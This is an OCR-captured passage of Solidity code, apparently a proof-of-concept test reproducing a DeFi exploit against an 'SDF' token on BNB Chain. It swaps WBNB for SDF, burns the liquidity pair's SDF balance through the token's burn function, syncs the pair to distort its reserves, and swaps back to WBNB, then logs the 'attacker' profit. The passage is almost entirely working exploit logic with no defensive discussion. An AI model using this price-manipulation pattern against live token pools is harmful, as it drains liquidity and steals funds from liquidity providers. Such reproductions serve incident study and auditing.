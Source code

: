 │         );                                                                                                                                                                                                                                           │
│                                                                                                                                                                                                                                                      │
│         address(WBNB).call{value: 0.01 ether}("");                                                                                                                                                                                                   │
│         WBNBToSDF();                                                                                                                                                                                                                                 │
│         SDF.burn(address(Pair), SDF.balanceOf(address(Pair)) - 1);                                                                                                                                                                                   │
│         Pair.sync();                                                                                                                                                                                                                                 │
│         SDFToWBNB();                                                                                                                                                                                                                                 │
│                                                                                                                                                                                                                                                      │
│          emit log_named_decimal_uint(                                                                                                                                                                                                                │
│             "[End] Attacker WBNB balance after exploit",                                                                                                                                                                                             │
│             WBNB.balanceOf(address(this)),                                                                                                                                                                                                           │
│             18                                                                                                                                                                                                                                       │
│         );                                                                                                                                                                                                                                           │
│     }                                                                                                                                                                                                                                                │
│     function SDFToWBNB () public{                                                                                                                                                                                                                    │
│         address[] memory path = new address[](2);                                                                                                                                                                                                    │
│         path[0] = address(SDF);                                                                                                                                                                                                                      │
│         path[1] = address(WBNB);                                                                                                                                                                                                                     │
│         Router.swapExactTokensForTokensSupportingFeeOnTransferTokens(                                                                                                                                                                                │
│         SDF.balanceOf(address(this)),                                                                                                                                                                                                                │
│         0,                                                                                                                                                                                                                                           │